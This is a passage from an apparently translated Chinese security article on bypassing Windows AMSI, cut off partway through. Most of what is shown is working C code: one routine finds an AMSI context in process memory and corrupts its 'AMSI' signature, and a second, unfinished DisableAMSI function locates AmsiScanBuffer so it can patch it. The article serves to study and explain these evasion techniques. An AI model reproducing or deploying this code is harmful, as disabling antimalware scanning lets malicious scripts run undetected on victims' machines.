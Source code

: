 ```
              j &lt; sh[i].Misc.VirtualSize - sizeof(ULONG_PTR); 
              j += sizeof(ULONG_PTR)) 
          `{`
            // get pointer
            ULONG_PTR ptr = *(ULONG_PTR*)&amp;ds[j];
            // query if the pointer
            res = VirtualQuery((LPVOID)ptr, &amp;mbi, sizeof(mbi));
            if(res != sizeof(mbi)) continue;

            // if it's a pointer to heap or stack
            if ((mbi.State   == MEM_COMMIT    ) &amp;&amp;
                (mbi.Type    == MEM_PRIVATE   ) &amp;&amp; 
                (mbi.Protect == PAGE_READWRITE))
            `{`
              ctx = (_PHAMSICONTEXT)ptr;
              // check if it contains the signature 
              if(ctx-&gt;Signature == 0x49534D41) `{`
                // corrupt it
                ctx-&gt;Signature++;
                disabled = TRUE;
                break;
              `}`
            `}`
          `}`
        `}`
      `}`
    `}`
    return disabled;
`}`
```



## 0x08 AMSI绕过：Patch代码（1）

CyberArk建议通过两条指令（ `xor edi, edi, nop`）来patch `AmsiScanBuffer`。如果我们想hook该函数，那么在跳转到其他函数之前，可以使用LDE（Length Disassembler Engine）来计算待保存的prolog字节数。由于该函数会验证传递进来的的AMSI上下文参数，并且要求Signature值为“AMSI”，因此我们可以定位这个值，简单将其更改为其他值即可。与Matt Graeber破坏上下文/数据的方法不同，在如下代码中我们会破坏这个特征值来绕过AMSI。

```
BOOL DisableAMSI(VOID) `{`
    HMODULE        dll;
    PBYTE          cs;
    DWORD          i, op, t;
    BOOL           disabled = FALSE;
    _PHAMSICONTEXT ctx;

    // load AMSI library
    dll = LoadLibraryExA(
      "amsi", NULL, 
      LOAD_LIBRARY_SEARCH_SYSTEM32);

    if(dll == NULL) `{`
      return FALSE;
    `}`
    // resolve address of function to patch
    cs = (PBYTE)GetProcAddress(dll, "AmsiScanBuffer");

    // scan for signature
    for(i=0;;i++) `{`
      ctx = (_PHAMSICONTEXT)&amp;cs[i];
      // is it "AMSI"?
      if(ctx-&gt;Signature == 0x49534D41) `{`
        // set page protection for write access
```